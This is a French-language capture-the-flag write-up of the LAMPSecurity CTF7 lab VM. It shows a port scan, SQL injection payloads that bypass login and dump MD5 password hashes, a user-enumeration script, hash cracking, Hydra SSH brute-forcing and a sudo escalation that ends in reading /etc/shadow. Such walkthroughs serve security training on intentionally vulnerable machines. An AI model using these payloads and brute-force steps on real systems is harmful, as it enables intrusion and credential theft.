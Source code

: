 # Solution du LAMPSecurity CTF #7

Introduction
------------

Voici la solution [du CTF LAMPSecurity numéro 7](http://vulnhub.com/entry/lampsecurity-ctf7,86/). La VM est une image d'un système *CentOS* 6.3.  

Frankie Goes to Pwnywood
------------------------

```plain
Starting Nmap 6.46 ( http://nmap.org ) at 2014-07-16 08:25 CEST
Nmap scan report for 192.168.1.60
Host is up (0.00018s latency).
Not shown: 65526 filtered ports
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 41:8a:0d:5d:59:60:45:c4:c4:15:f3:8a:8d:c0:99:19 (DSA)
|_  2048 66:fb:a3:b4:74:72:66:f4:92:73:8f:bf:61:ec:8b:35 (RSA)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Mad Irish Hacking Academy
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 3.X (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
| http-auth: 
| HTTP/1.0 401 Authorization Required
|_  Basic realm=SWAT
|_http-title: 401 Authorization Required
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 302)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Admin :: Mad Irish Hacking Academy
|_Requested resource was /login.php
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
| ndmp-version: 
|_  ERROR: Failed to get host information from server
MAC Address: 00:0C:29:9D:12:A9 (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.0 - 3.9
Network Distance: 1 hop

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.5.10-125.el6)
|   Computer name: localhost
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: localhost
|_  System time: 2014-07-01T09:08:59-04:00
| smb-security-mode: 
|   Account that was used for smb scripts: <blank>
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Sur le port 80 se trouve un site fait avec *Bootstrap*... ce qui fait que l'on a l'impression de connaître le site avant même de l'avoir visité :p  

En haut de la page il y a un formulaire *"Sign in"* avec les champs username et password.  

La page retourne une erreur sql bavarde si on rentre **"'** comme nom d'utilisateur :  

```plain
Invalid query: You have an error in your SQL syntax;
check the manual that corresponds to your MySQL server version for the right syntax to use near ''" and password = md5("")' at line 1
Whole query: select username, user_id from users where username = ""'" and password = md5("")
```

Il semble qu'il soit alors possible de bypasser l'authentification en modifiant la requête SQL.  

Ainsi avec le nom d'utilisateur **" or 1;#** on se retrouve connecté en tant que *test@nowhere.com*.  

Il est alors possible d'accéder à des profils utilisateurs via des urls de la forme */profile&id=113*.  

Un petit script Python suffit à extraire les utilisateurs existants en cherchant les IDs entre 0 et 500.  

```python
#!/usr/bin/python
import requests

sess = requests.session()

for i in range(0, 500):
    url = "http://192.168.1.60/profile&id=" + str(i)
    r = sess.get(url)
    if 'mailto:"' not in r.content:
        print "id =", i, r.content.split("mailto:")[1].split('"')[0]
```

Le résultat obtenu est le suivant :  

```plain
id = 3 brian@localhost.localdomain
id = 4 john@localhost.localdomain
id = 5 alice@localhost.localdomain
id = 6 ruby@localhost.localdomain
id = 7 leon@localhost.localdomain
id = 8 julia@localhost.localdomain
id = 9 michael@localhost.localdomain
id = 10 bruce@localhost.localdomain                                                                                                                                                                            
id = 11 neil@localhost.localdomain                                                                                                                                                                             
id = 12 charles@localhost.localdomain                                                                                                                                                                          
id = 36 foo@bar.com                                                                                                                                                                                            
id = 113 test@nowhere.com
```

Vu que l'email utilisateur s'affiche dans la page une fois connecté, il doit être aussi possible d'utiliser une UNION pour faire afficher les passwords de l'utilisateur.  

Et... oui ! si on rentre **" union select password, 0 from users where user\_id=3;#** on obtient le hash du mot de passe de *Brian*.  

Comme il y a peu d'utilisateurs on peut se permettre de faire une énumération manuelle. Après quelques temps on a les hashs suivants :  

```plain
brian:e22f07b17f98e0d9d364584ced0e3c18
john:0d9ff2a4396d6939f80ffe09b1280ee1
alice:2146bf95e8929874fc63d54f50f1d2e3
ruby:9f80ec37f8313728ef3e2f218c79aa23
leon:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia:ed2539fe892d2c52c42a440354e8e3d5
michael:9c42a1346e333a770904b2a2b37fa7d3
bruce:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil:4773408d5358875b3764db552a29ca61
charles:b2a97bcecbd9336b98d59d9324dae5cf
foo:4cb9c8a8048fd02294477fcb1a41191a
test:098f6bcd4621d373cade4e832627b4f6
```

Ça ne fait pas long feu avec une bonne wordlist :  

```plain
$ /opt/jtr/john --wordlist=mega_dict.txt --format=raw-md5 hash.txt 
Loaded 12 password hashes with no different salts (Raw MD5 [128/128 AVX intrinsics 12x])
changeme         (foo)
chuck33          (charles)
madrid           (julia)
my2cents         (brian)
qwer1234         (leon)
somepassword     (michael)
test             (test)
turtles77        (alice)
guesses: 8  time: 0:00:00:02 DONE (Wed Jul 16 13:28:15 2014)
```

Testons ces identifiants sur le serveur SSH. Ici pas question de les faire à la mano.  

```plain
$ ./hydra -L users.txt -P passwords.txt -e nsr ssh://192.168.1.60
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-16 13:30:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 88 login tries (l:8/p:11), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.60   login: brian   password: my2cents
[22][ssh] host: 192.168.1.60   login: leon   password: qwer1234
[22][ssh] host: 192.168.1.60   login: julia   password: madrid
[22][ssh] host: 192.168.1.60   login: michael   password: somepassword
[22][ssh] host: 192.168.1.60   login: charles   password: chuck33
[22][ssh] host: 192.168.1.60   login: alice   password: turtles77
[STATUS] attack finished for 192.168.1.60 (waiting for children to finish) ...
1 of 1 target successfully completed, 6 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-16 13:30:43
```

La vie de Brian
---------------

*Brian* a tous les droits et on le remercie :  

```plain
[brian@localhost ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for brian: 
Matching Defaults entries for brian on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brian may run the following commands on this host:
    (ALL) ALL
[brian@localhost ~]$ sudo su
[root@localhost brian]# head -1 /etc/shadow
root:$6$C85VH0UQ$ZFydP2qmc0DTBfK5x4UL9658RDdF/cAzRtRFv6SB7ctovLeEPV6BOzimsGtCQOYbQOXbH4Ek2FN4a0Lrsymb/0:15698:0:99999:7:::
```

Au passage on trouve d'autres mots de passe dans le fichier *.mysql\_history* de root :  

```plain
update users set password=md5('my2cents') where user_id = 3;
update users set password=md5('transformersrule') where user_id = 4;
update users set password=md5('turtles77') where user_id = 5;
update users set password=md5('qwer1234') where user_id = 7;
update users set password=md5('madrid') where user_id = 8;
update users set password=md5('somepassword') where user_id = 9;
update users set password=md5('LosAngelesLakers') where user_id = 10;
update users set password=md5('Jets4Ever') where user_id = 11;
update users set password=md5('chuck33') where user_id = 15;
update users set password=md5('chuck33') where user_id = 12;
```

Un goût de trop peu ?

*Published July 21 2014 at 22 09*